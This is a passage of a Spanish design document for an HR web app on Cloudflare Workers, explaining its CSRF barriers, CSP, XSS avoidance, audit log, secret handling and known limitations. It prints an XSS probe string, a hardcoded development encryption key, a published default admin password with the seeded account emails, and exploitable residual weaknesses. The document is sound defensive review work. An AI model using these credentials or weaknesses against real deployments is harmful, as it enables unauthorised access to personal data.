}
```

**Barrera 1: verificación de `Origin`** (`verificarOrigen` en `http.ts`). Compara
el host de la cabecera `Origin` con el de la URL de la petición. No depende de
que el cliente coopere, así que protege incluso frente a una petición fabricada a
mano o a un cliente que no implemente nada del protocolo de la SPA.

**Barrera 2: token de doble envío.** Cada sesión lleva su propio
`tokenCsrf = tokenAleatorio(24)` (48 caracteres hexadecimales), distinto del token
de sesión. Viaja al cliente dentro del DTO de sesión, el cliente lo guarda **solo
en memoria** (`ClienteApi.tokenCsrf`) y lo reenvía en la cabecera `X-Token-CSRF`
(`CABECERA_CSRF`) en cada petición mutante. `verificarCsrf` lo compara con
`ServicioCripto.comparacionConstante` y lanza 403 si falta o no coincide. Solo se
exige cuando ya hay sesión: el login todavía no tiene ninguno que enviar.

El valor está en que las dos barreras fallan de forma independiente: la primera
no requiere nada del cliente pero se apaga si el navegador no envía `Origin`; la
segunda exige un secreto que un sitio de terceros no puede leer, porque la
política de mismo origen le impide ver la respuesta del login.

### Por qué `SameSite=Strict` no basta por sí solo

1. **`SameSite` es *same-site*, no *same-origin*.** El navegador considera del
   mismo sitio a todo lo que comparte dominio registrable: `otro.ecotech.com` es
   *same-site* con `app.ecotech.com`. Un subdominio comprometido, o simplemente
   otra aplicación alojada bajo el mismo dominio corporativo, puede emitir
   peticiones que el navegador tratará como propias y a las que adjuntará la
   cookie. El prefijo `__Host-` impide que ese subdominio *sobrescriba* la
   cookie, pero no que *provoque* peticiones. La verificación de `Origin`, que
   compara host exacto, sí las rechaza.
2. **Es una defensa que se ejecuta en el cliente.** Depende de que el navegador
   la implemente y la respete. Un navegador antiguo, un cliente HTTP embebido o
   una configuración exótica pueden ignorarla, y el servidor no se entera.
3. **Defensa en profundidad.** Un cambio futuro que relaje la cookie a
   `SameSite=Lax` por alguna necesidad de integración dejaría el sistema expuesto
   si fuera el único control. Con dos barreras, ese cambio degrada la protección
   en vez de eliminarla.

Hay una tercera protección incidental: `leerJson` exige
`Content-Type: application/json`. Un formulario HTML de otro origen solo puede
enviar `application/x-www-form-urlencoded`, `multipart/form-data` o `text/plain`,
y los formularios no están sujetos a CORS, de modo que este requisito por sí solo
ya bloquea la vía de CSRF más simple.

---

## 9. Cabeceras de seguridad

### La CSP real

Transcrita de `src/worker/http.ts` (la constante `CSP` se une con `'; '`):

```
default-src 'none'; script-src 'self'; style-src 'self'; img-src 'self' data:; font-src 'self'; connect-src 'self'; form-action 'none'; base-uri 'none'; frame-ancestors 'none'
```

| Directiva | Qué hace aquí |
|---|---|
| `default-src 'none'` | Punto de partida cerrado: se niega toda carga de recursos y luego se abre lo mínimo. Cubre por herencia lo que no se declara (`object-src`, `media-src`, `worker-src`, `frame-src`), de modo que no hay que enumerarlo. |
| `script-src 'self'` | Solo scripts servidos desde el mismo origen. Sin `'unsafe-inline'` ni `'unsafe-eval'`: es lo que convierte un XSS reflejado en inofensivo, porque el marcado inyectado no puede ejecutar nada. |
| `style-src 'self'` | Solo la hoja `estilos.css` del propio origen. Sin `'unsafe-inline'` no se pueden inyectar estilos que exfiltren datos mediante selectores de atributo. |
| `img-src 'self' data:` | Imágenes propias y `data:`. `data:` es necesario porque el favicon de `index.html` es un SVG incrustado como URI de datos. |
| `font-src 'self'` | No hay tipografías externas: ningún tercero recibe una petición del navegador del empleado. |
| `connect-src 'self'` | `fetch`, XHR y WebSocket solo contra el propio origen. Aunque se ejecutara código ajeno, no tendría a dónde exfiltrar. |
| `form-action 'none'` | Ningún formulario puede enviarse a ninguna parte, aunque un atacante lograra inyectar uno con `action` externo. |
| `base-uri 'none'` | Impide inyectar `<base href="...">` para reescribir la resolución de todas las URL relativas de la página. |
| `frame-ancestors 'none'` | La aplicación no puede montarse en un iframe: defensa contra secuestro de clics. Sustituye a `X-Frame-Options`, que se envía igualmente por compatibilidad. |

Las demás cabeceras de `CABECERAS_SEGURIDAD`:

| Cabecera | Valor | Propósito |
|---|---|---|
| `X-Content-Type-Options` | `nosniff` | El navegador no adivina el tipo: algo devuelto como texto no se ejecuta como script. |
| `Referrer-Policy` | `strict-origin-when-cross-origin` | No filtra identificadores de la URL a terceros. |
| `X-Frame-Options` | `DENY` | Equivalente heredado de `frame-ancestors`. |
| `Permissions-Policy` | `geolocation=(), microphone=(), camera=(), payment=()` | Renuncia explícita a APIs del navegador que el sistema no usa. |
| `Strict-Transport-Security` | `max-age=31536000; includeSubDomains` | Un año de HTTPS obligatorio, requisito del prefijo `__Host-`. |
| `Cross-Origin-Opener-Policy` | `same-origin` | Aísla el contexto de navegación de ventanas de otros orígenes. |

Se aplican en las tres formas de respuesta —`json()`, `errorARespuesta()` y
`archivo()`— a través de `cabecerasApi` o de la constante directamente. Las
respuestas de API llevan además
`Cache-Control: no-store, no-cache, must-revalidate, private` y `Pragma: no-cache`:
los datos de gestión no deben quedar en una caché intermedia ni en el disco del
navegador. Sobre el alcance real de estas cabeceras, ver la limitación 15 en §13.

### Por qué el cliente no tiene ni un script en línea

`script-src 'self'` sin `'unsafe-inline'` significa que un
`<script>alert(1)</script>` inyectado en cualquier punto simplemente no se
ejecuta. Esa garantía se pierde en cuanto haga falta un solo `'unsafe-inline'` o
una sola excepción por hash, porque la directiva pasa a permitir código en línea
para toda la página.

`src/cliente/index.html` está escrito para no necesitarlo:

```html
<link rel="stylesheet" href="estilos.css">
<script type="module" src="app.js"></script>
```

No hay `<script>` con cuerpo, ni atributos `onclick`, ni `style="..."`. Los
manejadores de eventos se registran con `addEventListener` desde `dom.ts` (la
propiedad `atributos.al`), y todo el estilo vive en la hoja externa. El favicon va
como `data:` URI, que la directiva `img-src` contempla explícitamente.

---

## 10. XSS en el cliente

`src/cliente/dom.ts` es el único constructor de DOM de la aplicación y no expone
ninguna vía para escribir marcado:

- El texto se asigna con `nodo.textContent = atributos.texto`.
- Los hijos de tipo cadena se insertan con `document.createTextNode(hijo)`.
- Vaciar un contenedor es `while (nodo.firstChild) nodo.removeChild(nodo.firstChild)`,
  no `innerHTML = ''`.

Una búsqueda de `innerHTML`, `outerHTML` o `insertAdjacentHTML` sobre
`src/cliente/` no devuelve ninguna aparición, salvo la del comentario que explica
por qué no las hay.

El razonamiento es de diseño, no de disciplina: si alguien guarda
`` en la descripción de una tarea, `textContent` lo pinta como
texto literal. Escapar cadenas a mano funciona hasta que alguien olvida un sitio;
no tener el método peligroso al alcance hace que ese olvido sea imposible. Y como
la validación no escapa HTML al entrar (§7), el dato almacenado se conserva
íntegro para el resto de salidas —CSV, PDF, XLSX—, cada una con su propio escape.

La CSP es la segunda capa: aunque apareciera un `innerHTML` en un cambio futuro,
`script-src 'self'` impediría que el marcado inyectado ejecutara código.

---

## 11. Auditoría

### Qué se registra

Cada asiento (`src/dominio/auditoria/RegistroAuditoria.ts`) guarda `usuarioId`,
`emailUsuario`, `accion`, `entidad`, `entidadId`, `detalle`, `exito`, `ip` y
`creadoEn`. Las acciones que el código emite hoy:

| Ámbito | Acciones |
|---|---|
| Acceso | `LOGIN_EXITOSO`, `LOGIN_FALLIDO`, `LOGIN_BLOQUEADO_POR_TASA`, `LOGIN_CUENTA_BLOQUEADA`, `LOGOUT`, `CAMBIO_CONTRASENA`, `CAMBIO_CONTRASENA_FALLIDO` |
| Empleados | `EMPLEADO_CREADO`, `EMPLEADO_ACTUALIZADO`, `EMPLEADO_DADO_DE_BAJA` |
| Departamentos | `DEPARTAMENTO_CREADO`, `DEPARTAMENTO_ACTUALIZADO`, `DEPARTAMENTO_DESACTIVADO` |
| Proyectos | `PROYECTO_CREADO`, `PROYECTO_ACTUALIZADO`, `PROYECTO_ESTADO_CAMBIADO`, `PROYECTO_CANCELADO`, `PROYECTO_ELIMINADO` |
| Asignaciones | `ASIGNACION_CREADA`, `ASIGNACION_ACTUALIZADA`, `ASIGNACION_CERRADA` |
| Horas | `TIEMPO_REGISTRADO`, `TIEMPO_ACTUALIZADO`, `TIEMPO_ENVIADO`, `TIEMPO_APROBADO`, `TIEMPO_RECHAZADO`, `TIEMPO_ELIMINADO` |
| Informes | `REPORTE_GENERADO`, `REPORTE_EXPORTADO` |

Se registran tanto los éxitos como los fallos: un login rechazado y un 403 son
justamente lo que interesa detectar. Como la respuesta del login es
deliberadamente indistinguible (§4), la traza es el **único** lugar donde consta
que una cuenta concreta estaba bloqueada.

El campo `detalle` se recorta a 300 caracteres en la fábrica, para que la traza no
se convierta en un vertedero de cuerpos de petición con datos personales dentro.
Las entradas pasan por `ESQUEMA_ASIENTO` aunque las escriban otros servicios y no
el enrutador, porque `accion` y `detalle` pueden arrastrar texto del usuario.

El asiento es **inmutable por diseño**: todos sus campos son `readonly`, no hay
ningún método de mutación y no hereda el patrón `tocar()` del resto de entidades.
Un asiento que se puede editar no sirve como evidencia.

La consulta (`ServicioAuditoria.listar`) exige `auditoria:leer`, devuelve 200
asientos por defecto y nunca más de 1000.

### Por qué `registrar` nunca lanza

```ts
} catch (e) {
  console.error('[auditoria] no se pudo registrar el asiento', { ... });
}
```

La auditoría es un efecto lateral de la operación real, no parte de ella. Si un
fallo de escritura en KV se propagara, un empleado no podría cargar sus horas por
un problema del registro: se cambiaría una pérdida de trazabilidad por una caída
funcional, que es un modo de fallo mucho peor y, además, explotable —quien
consiga romper la escritura de auditoría bloquearía el sistema entero—.

Por el mismo motivo `registrar` no exige permiso ni solicitante: un login
rechazado es anónimo por definición y es el evento que más interesa asentar.

El precio, asumido: un asiento puede perderse en silencio. Queda constancia en el
log del Worker, no en la traza consultable.

---

## 12. Gestión de secretos

`wrangler.jsonc` declara solo la variable no sensible `ENTORNO` y el binding
`ECOTECH_KV`. Los dos secretos se definen fuera del repositorio, con
`wrangler secret put`, y aparecen en la interfaz `Entorno`
(`src/aplicacion/Contexto.ts`):

| Secret | Uso | Si falta |
|---|---|---|
| `CLAVE_MAESTRA` | Material HKDF del que salen la clave AES-256-GCM y la clave HMAC del índice ciego | Se usa una clave de desarrollo y `GET /api/salud` lo denuncia |
| `CLAVE_ADMIN_INICIAL` | Contraseña de las cuentas sembradas en el primer arranque | Se usa `CLAVE_ADMIN_POR_DEFECTO`, que está publicada en el repositorio |

### Qué pasa si falta `CLAVE_MAESTRA`

```ts
private static resolverClaveMaestra(entorno: Entorno): string {
  const secreto = entorno.CLAVE_MAESTRA?.trim();
  if (secreto && secreto.length >= 32) return secreto;
  return 'ecotech-clave-de-desarrollo-no-apta-para-produccion-0001';
}
```

El sistema **no se cae**: arranca con una clave de desarrollo que está en el
código fuente, para que `wrangler dev` funcione sin configurar nada. La decisión
tiene un coste evidente —un despliegue descuidado cifra los datos personales con
una clave pública— y por eso no se silencia:

- `Contexto.usaClaveDeDesarrollo` devuelve `true` cuando el secret falta o mide
  menos de 32 caracteres.
- `GET /api/salud` (ruta pública, `requiereSesion: false`) lo publica:

```json
{
  "estado": "operativo",
  "almacen": "workers-kv",
  "sembrado": true,
  "cifradoConClaveDeDesarrollo": true,
  "advertencia": "Defina el secret CLAVE_MAESTRA: los datos personales se estan cifrando con una clave publica."
}
```

La sonda es deliberadamente parca en todo lo demás: no expone versiones, rutas
internas ni conteos, que serían reconocimiento gratuito. El aviso de clave de
desarrollo se considera más valioso publicado que oculto: quien pueda leerlo
desde fuera ya podría descifrar los datos con la clave del repositorio, así que
esconderlo solo perjudicaría al equipo que debe corregirlo.

`ServicioCripto` rechaza en el constructor cualquier clave de menos de 32
caracteres con `ErrorInterno`, de modo que no hay forma de operar con una clave
maestra trivialmente corta.

### Credenciales sembradas

`src/aplicacion/Semilla.ts` crea cuatro cuentas —`admin@`, `gerente@`,
`empleado@` y `auditor@ecotech.com`— todas con la misma contraseña
(`CLAVE_ADMIN_INICIAL` o, en su defecto,
`CLAVE_ADMIN_POR_DEFECTO = 'EcoTech#2026Admin'`) y con `debeCambiarContrasena` a
`true`. La constante es pública a propósito: su única función es permitir el
primer acceso.

---

## 13. Limitaciones conocidas

Lo que sigue está verificado en el código y es lo que un revisor debería mirar
antes de poner el sistema en producción.

**Criptografía y secretos**

1. **No hay rotación de claves implementada.** El sobre lleva `v: 1`, pero no
   existe ninguna rama que lea otra versión ni ninguna rutina de recifrado.
   Cambiar `CLAVE_MAESTRA` deja todos los sobres existentes indescifrables
   (`descifrar` lanzará `ErrorInterno`) y además invalida los índices ciegos, con
   lo que el control de duplicados dejaría de detectar coincidencias antiguas. La
   rotación exige hoy un procedimiento manual que no está escrito.
2. **Las remuneraciones no se cifran en reposo.** `salarioMensual`, `tarifaHora`
   y `topeMensual` se persisten como números en claro en `EstadoEmpleado`. Solo
   están protegidas por el enmascarado de `Empleado.aDTO` y por `reporte:nomina`.
   Un volcado de KV las expone, igual que los nombres y los emails corporativos.
3. **La clave maestra vive en un único secret de la plataforma.** No hay
   envoltura por KMS ni separación de custodia: quien administre la cuenta de
   Cloudflare puede leerla.
4. **PBKDF2 no es memoria-dura.** Argon2id o scrypt resistirían mejor el ataque
   por fuerza bruta con GPU, pero WebCrypto en Workers no los ofrece. 210.000
   iteraciones es lo razonable dentro de lo disponible.

**Autenticación y sesiones**

5. **No hay segundo factor.** Ninguna forma de TOTP, WebAuthn ni códigos de
   respaldo. Una contraseña comprometida da acceso completo al rol de esa cuenta.
6. **El cambio de contraseña inicial solo se fuerza en el cliente.**
   `src/cliente/Aplicacion.ts` redirige a `perfil` cuando `debeCambiarContrasena`
   es `true`, y su propio comentario lo admite: *"Se hace en el cliente por
   comodidad; el servidor no depende de esto para nada crítico"*. Un cliente que
   hable directamente con la API puede operar con la contraseña sembrada.
7. **Las credenciales de demostración son públicas** y compartidas por las cuatro
   cuentas. Si se despliega sin definir `CLAVE_ADMIN_INICIAL`, cualquiera que
   conozca el repositorio entra como `ADMIN_RRHH`.
8. **La huella del cliente es débil y falsificable.** `huellaDe` es un FNV-1a de
   32 bits sobre el `User-Agent`: detecta la reutilización casual de una cookie
   robada, no a un atacante que copie la cabecera. Al revés, una actualización
   del navegador cambia el `User-Agent` y cierra la sesión del usuario legítimo.
9. **No hay gestión de sesiones para el usuario.** No existe "ver mis sesiones
   activas" ni "cerrar sesión en todos los dispositivos". Revocar el acceso de
   alguien pasa por desactivar la cuenta (`usuario.activo = false`), que sí corta
   en la siguiente petición, o por esperar a las ocho horas de vencimiento.
10. **El usuario bloqueado no sabe por qué no entra.** Es el precio de la
    respuesta uniforme (§4): recibe el mismo 401 que con una contraseña
    equivocada, sin indicación de cuánto falta.
    `Usuario.segundosDeBloqueoRestantes()` sigue existiendo, pero ya no lo
    consume ninguna ruta: solo lo ejercitan las pruebas.
11. **No hay recuperación de contraseña ni verificación de correo**, ni caducidad
    ni historial de contraseñas. `ReglaContrasena.PROHIBIDAS` son siete cadenas,
    no un corpus real de filtraciones.

**Control de acceso y anti-CSRF**

12. **Queda un canal lateral residual en el login.** Un email existente con
    contraseña incorrecta provoca una escritura en KV (`registrarIntentoFallido`
    más `guardar`) que la rama del email inexistente no paga. Es latencia de
    almacén, mucho más ruidosa que la de CPU, pero no está compensada.
13. **`verificarOrigen` acepta las peticiones sin cabecera `Origin`.** Es
    deliberado —los navegadores la envían siempre en peticiones cruzadas que
    mutan datos— pero significa que un cliente no navegador salta esa barrera y
    solo queda el token de doble envío.
14. **El token CSRF no rota dentro de la sesión.** Se genera al crearla y vive
    sus ocho horas.

**Plataforma**

15. **Dos fuentes para las mismas cabeceras.** `wrangler.jsonc` fija
    `run_worker_first: ["/api/*"]`, de modo que el Worker solo se invoca para la
    API; las rutas del frontend las sirve directamente el almacén de assets, sin
    pasar por `aplicarCabecerasSeguridad`. Durante la revisión se comprobó con
    `curl` que `index.html` se estaba entregando **sin CSP**, que es justo donde
    más falta hace: es la única respuesta que ejecuta JavaScript.
    Está corregido con `src/cliente/_headers`, que `scripts/build.mjs` copia a
    `dist/` y que aplica la misma política a `/*`. La limitación que queda es de
    mantenimiento: la política está escrita en dos sitios —`src/worker/http.ts`
    para la API y `_headers` para los estáticos— y nada obliga a que coincidan.
    Si se toca una, hay que tocar la otra. Unificarlas exigiría
    `run_worker_first: true`, que haría pasar por el Worker cada petición de un
    archivo estático y multiplicaría las invocaciones sin más beneficio.
16. **El limitador por IP es eventualmente consistente.** Está documentado en la
    propia clase: KV propaga los contadores con retardo entre centros de datos,
    así que un atacante muy distribuido cuela algunos intentos de más. Es una
    segunda línea; la primera es el bloqueo de cuenta, que sí es exacto. Además
    es una ventana fija —no deslizante— y la serialización de `AlmacenKV.mutar`
    solo cubre las escrituras concurrentes **dentro de una misma petición**: el
    `Map` de operaciones en vuelo es un campo de instancia y `Contexto` crea un
    `AlmacenKV` por petición.
17. **La cesta `login:ip:desconocida`** agrupa todas las peticiones sin
    `CF-Connecting-IP`, que compartirían un único cubo de 10 intentos.
18. **La traza de auditoría se poda y puede perder asientos.** Solo se conservan
    los 2000 más recientes (`MAXIMO_ASIENTOS`), toda la colección vive bajo una
    sola clave de KV con semántica "último en escribir gana", y `registrar` no
    propaga sus fallos. No es un archivo legal: para eso hay que exportarla
    periódicamente.
19. **La auditoría no es a prueba de manipulación.** No hay encadenamiento por
    hash ni firma: quien tenga acceso de escritura al espacio de nombres KV puede
    editar asientos. La inmutabilidad de `RegistroAuditoria` protege frente a
    errores del propio código, no frente a un atacante con acceso al almacén.
20. **No hay endpoint de reporte de CSP** (`report-uri` o `report-to`), así que
    una violación no deja rastro salvo en la consola del navegador del usuario.
21. **`exigirUnicidad` recorre la colección completa de empleados** en cada alta
    y modificación. No descifra nada —esa era la ventaja del índice ciego— pero
    su coste crece de forma lineal con la plantilla.
